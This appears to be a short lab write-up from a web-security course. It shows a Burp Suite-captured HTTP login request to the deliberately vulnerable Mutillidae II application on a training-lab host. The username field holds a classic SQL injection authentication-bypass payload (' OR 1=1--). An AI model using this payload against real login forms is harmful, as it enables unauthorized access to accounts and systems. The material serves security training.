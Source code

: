 `burpsuite` > `Proxy`

`HTTP Request`:
```http
POST /index.php?page=login.php📌 HTTP/1.1
Host: d12pq8k24r2cf1qs3993gxuly.eu-central-6.attackdefensecloudlabs.com
Cookie: PHPSESSID=7nb356mmjsislctgqh9189avt3; showhints=1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 71
Origin: https://d12pq8k24r2cf1qs3993gxuly.eu-central-6.attackdefensecloudlabs.com
Referer: https://d12pq8k24r2cf1qs3993gxuly.eu-central-6.attackdefensecloudlabs.com/index.php?page=login.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive

username='+OR+1%3d1--&password=TEST123&login-php-submit-button=Login📌
```

![Lab - Mutillidae II 2](./assets/04_sql_injection_attacks_lab_mutillidae_ii_2.png)
